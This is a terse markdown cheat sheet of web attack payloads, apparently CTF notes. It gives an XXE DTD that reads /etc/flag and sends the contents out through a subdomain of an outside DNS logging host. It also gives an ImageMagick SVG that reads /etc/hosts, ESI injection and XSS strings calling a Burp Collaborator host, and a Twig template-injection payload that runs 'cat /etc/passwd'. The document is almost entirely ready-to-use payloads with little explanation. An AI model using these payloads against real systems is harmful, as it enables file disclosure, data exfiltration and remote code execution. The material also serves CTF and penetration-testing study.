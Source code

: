 ### XXE  
#### Exfiltrate in subdomain name:  
dtd file without .dtd extension _(test.html)_:  
```xml
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://%file;.b0f4f2d1d89d4ec413ad.d.zhack.ca'>">
%eval;
%exfiltrate;
```  
Injection:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///tmp/test.html"> %xxe;]>
```  
http://dnsbin.zhack.ca/  
### LFI
SVG LFI (ImageMagick):  
https://blog.bushwhackers.ru/googlectf-2019-gphotos-writeup/  
```
<?xml version="1.0" encoding="UTF-8"?>
<svg width="1200px" height="1200px">
  <image width="1200" height="1200" href="text:/etc/hosts" />
</svg>
```
### ESI 
*Edge Side Include Injection*    
WAF'alike bypass:
```html
<svg onload=alert``
```
```html
hello -> hello 
but
hello isn't modified 
you have ESI injection
```
```xml
<esi:include src="/anypage.html" dca="none" />
```
XSS  
```
<esi:include src="http://abcdef.burpcollaborator.net/" /><script>alert(1)</script>
```
 - https://twitter.com/alxbrsn/status/981256374230319112
 - https://t.co/XRxIalWcng?amp=1 
 - https://t.co/vzRIo3RuaR?amp=1
 - https://www.slideshare.net/cisoplatform7/edge-side-include-injection-abusing-caching-servers-into-ssrf-and-transparent-session-hijacking  
 
 ### SSTI  
 Twig3 RCE:  
```
{{['cat${IFS}/etc/passwd']|filter('system')}}
```
 